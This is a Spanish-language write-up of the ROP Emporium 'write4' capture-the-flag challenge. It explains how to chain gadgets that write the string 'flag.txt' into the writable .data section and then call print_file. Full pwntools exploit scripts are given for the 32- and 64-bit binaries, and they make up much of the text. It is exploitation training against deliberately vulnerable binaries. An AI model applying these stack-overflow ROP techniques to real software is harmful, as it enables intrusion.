 # write 4

## x86

En este reto debemos llamar a `print_file` con un puntero a "flag.txt" como argumento. Pero esa cadena no existe en el binario asi que tendremos que escribirla.

La descripcion nos da una pista de gadgets que podriamos usar. Con ROPGadget extraje estos:
```
0x080485aa : pop edi ; pop ebp ; ret
0x08048543 : mov dword ptr [edi], ebp ; ret
```

El primero almacena valores del stack en `edi` y `ebp` y el segundo copia el contenido de `ebp` a la direccion que contiene `edi`.

Necesitamos encontrar tambien una seccion del binario que sea escribible y que no contenga datos importantes. La seccion `data` nos sirve:
```
[0xf7f873a0]> iS ~w
19  0x00000efc    0x4 0x08049efc    0x4 -rw- INIT_ARRAY  .init_array
20  0x00000f00    0x4 0x08049f00    0x4 -rw- FINI_ARRAY  .fini_array
21  0x00000f04   0xf8 0x08049f04   0xf8 -rw- DYNAMIC     .dynamic
22  0x00000ffc    0x4 0x08049ffc    0x4 -rw- PROGBITS    .got
23  0x00001000   0x18 0x0804a000   0x18 -rw- PROGBITS    .got.plt
24  0x00001018    0x8 0x0804a018    0x8 -rw- PROGBITS    .data
25  0x00001020    0x0 0x0804a020    0x4 -rw- NOBITS      .bss
[0xf7f873a0]> px 16@ 0x0804a018
- offset -  1819 1A1B 1C1D 1E1F 2021 2223 2425 2627  89ABCDEF01234567
0x0804a018  0000 0000 0000 0000 0000 0000 0000 0000  ..............
```

Con esto podemos hacer una funcion para escribir alli, en chunks de 4 bytes porque ese es el tamaño de los registros que usamos:
``` python
data_addr = 0x0804a018
gadget_write1 = 0x080485aa  # pop edi ; pop ebp ; ret
gadget_write2 = 0x08048543  # mov dword ptr [edi], ebp ; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),4):
        print("Loop: ",i)
        chunk = data[i:i+4].ljust(4,b"\x00")
        p += p32(gadget_write1)
        p += p32(data_addr + i)
        p += p32(int.from_bytes(chunk,'little'))
        p += p32(gadget_write2)
    return p
```

Primero usamos esto para escribir en memoria y luego llamamos a `print_file`, pasandole como argumento el inicio de nuestra cadena.

Exploit:
``` python
from pwn import *
elf = context.binary = ELF("./write432")
io = process("./write432")

data_addr = 0x0804a018
gadget_write1 = 0x080485aa  # pop edi ; pop ebp ; ret
gadget_write2 = 0x08048543  # mov dword ptr [edi], ebp ; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),4):
        print("Loop: ",i)
        chunk = data[i:i+4].ljust(4,b"\x00")
        p += p32(gadget_write1)
        p += p32(data_addr + i)
        p += p32(int.from_bytes(chunk,'little'))
        p += p32(gadget_write2)
    return p

payload = b"A" * 44
payload += write_in_data(b"flag.txt\x00")  # write "flag.txt" en .data
payload += p32(elf.plt['print_file'])  # print_file("flag.txt")
payload += p32(0)                      # ebp
payload += p32(data_addr)              # "flag.txt"



io.recv()
io.sendline(payload)
io.interactive()
```

## x86_64

Un poco de lo mismo, solo que usaremos registros de 64 bits para escribir, asi que ajustamos el bucle a chunks de 8 bytes.

Ademas recordemos que en x86_64 primero se almacenan los argumentos en los registros  en el orden de la ABI y despues se llama a la funcion.

Exploit:
``` python
from pwn import *
elf = context.binary = ELF("./write4")
io = process("./write4")

data_addr = 0x00601028
gadget_write1 = 0x00400690  # pop r14 ; pop r15 ; ret
gadget_write2 = 0x00400628  # mov qword ptr [r14], r15 ; ret
pop_rdi =  0x00400693       # pop rdi; ret

def write_in_data(data):
    p = b""
    for i in range(0,len(data),8):
        print("Loop: ",i)
        chunk = data[i:i+8].ljust(8,b"\x00")
        p += p64(gadget_write1)
        p += p64(data_addr + i)                    #r14
        p += p64(int.from_bytes(chunk,'little'))   #r15
        p += p64(gadget_write2)
    return p

payload = b"A" * 40
payload += write_in_data(b"flag.txt\x00")  # write "flag.txt" en .data
payload += p64(pop_rdi)
payload += p64(data_addr)              # "flag.txt"
payload += p64(elf.plt['print_file'])  # print_file("flag.txt")
print(payload)
io.recv()
io.sendline(payload)
io.interactive()
```



